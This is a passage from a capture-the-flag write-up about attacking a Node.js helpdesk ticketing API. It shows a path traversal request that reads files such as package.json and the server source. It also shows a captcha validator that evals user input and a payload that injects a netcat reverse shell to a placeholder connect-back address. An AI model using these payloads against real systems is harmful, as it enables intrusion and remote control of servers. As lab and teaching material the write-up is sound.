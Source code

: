 It doesn't take long to discount option 4, as the python box simply returns HTTP 501: Not Implemented no matter what input is received.

The image api proved to be very useful, as it's possible to use it to read any file on disk, however it appears to block reading any files in `/etc`. Knowing that this is running nodejs through verbose error messages, I know that every node application needs to have a `package.json` file somewhere, so I try reading that from every directory above the current directory, and find it in `../../package.json`

`GET /v1/users/image/Li4vLi4vcGFja2FnZS5qc29u HTTP/2`

```json
{
  "name": "tickets",
  "version": "1.0.0",
  "description": "Helpdesk Ticketing API",
  "main": "app/server.js",
  "scripts": {
    "start": "python3 ./launcher.py",
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  ...
```

Using this it's possible to read all of the source of the application, starting at `../../app/server.js` and then resolving all of the `require("module")` definitions. This can then be used to help find more vulnerabilities that may allow code execution.

I started looking at the CAPTCHA next, as the error from that seemed to indicate some kind of code injection. Using the file read to grab the source code, I can see that this is exactly what it's doing:

``

```javascript
function validateCaptcha(captcha) {
  valid = false;
  if (utils.typeCheck(captcha, 'object') && utils.typeCheck(captcha['q'], 'string') && utils.typeCheck(captcha['a'], 'string')) {
    try {
      valid = eval(captcha['a']) == captcha['q'];
    } catch (e) {
      throw `${e.name}: ${e.message}`;
    }
  }
  return valid;
}
```

So it `eval`'s the provided answer (equation), and compares the result to the question, however it doesn't directly return the result, unless for some reason the result is in an error message, so `throw` can be used, with an object that has a name/message field. I decide to directly create a reverse shell, however the api can be used by using `require('child_process').execSync('command')` however you need to be careful not to cause the process to hang, as this will hang the entire server.

```
POST /v1/ HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz

{"captcha":{"q":"1","a":"require('child_process').exec('nc <connect back ip> <port> -e /bin/sh')"}}
```
